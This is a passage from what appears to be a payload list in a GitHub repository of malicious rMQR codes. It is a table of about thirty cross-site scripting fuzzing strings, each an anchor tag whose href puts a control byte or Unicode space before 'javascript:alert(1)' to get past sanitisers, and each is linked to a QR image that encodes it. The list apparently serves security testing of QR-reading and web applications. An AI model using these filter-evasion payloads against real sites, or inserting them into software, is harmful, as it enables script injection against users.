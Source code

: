 | `<a href="\x03javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/176.png) |
| `<a href="\x0Ejavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/177.png) |
| `<a href="\x1Ajavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/178.png) |
| `<a href="\x00javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/179.png) |
| `<a href="\x10javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/180.png) |
| `<a href="\xE2\x80\x82javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/181.png) |
| `<a href="\x20javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/182.png) |
| `<a href="\x13javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/183.png) |
| `<a href="\x09javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/184.png) |
| `<a href="\xE2\x80\x8Ajavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/185.png) |
| `<a href="\x14javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/186.png) |
| `<a href="\x19javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/187.png) |
| `<a href="\xE2\x80\xAFjavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/188.png) |
| `<a href="\x1Fjavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/189.png) |
| `<a href="\xE2\x80\x81javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/190.png) |
| `<a href="\x1Djavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/191.png) |
| `<a href="\xE2\x80\x87javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/192.png) |
| `<a href="\x07javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/193.png) |
| `<a href="\xE1\x9A\x80javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/194.png) |
| `<a href="\xE2\x80\x83javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/195.png) |
| `<a href="\x04javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/196.png) |
| `<a href="\x01javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/197.png) |
| `<a href="\x08javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/198.png) |
| `<a href="\xE2\x80\x84javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/199.png) |
| `<a href="\xE2\x80\x86javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/200.png) |
| `<a href="\xE3\x80\x80javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/201.png) |
| `<a href="\x12javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/202.png) |
| `<a href="\x0Djavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/203.png) |
| `<a href="\x0Ajavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/204.png) |
| `<a href="\x0Cjavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/205.png) |
| `<a href="\x15javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/206.png) |
| `<a href="\xE2\x80\xA8javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/207.png) |
| `<a href="\x16javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/208.png) |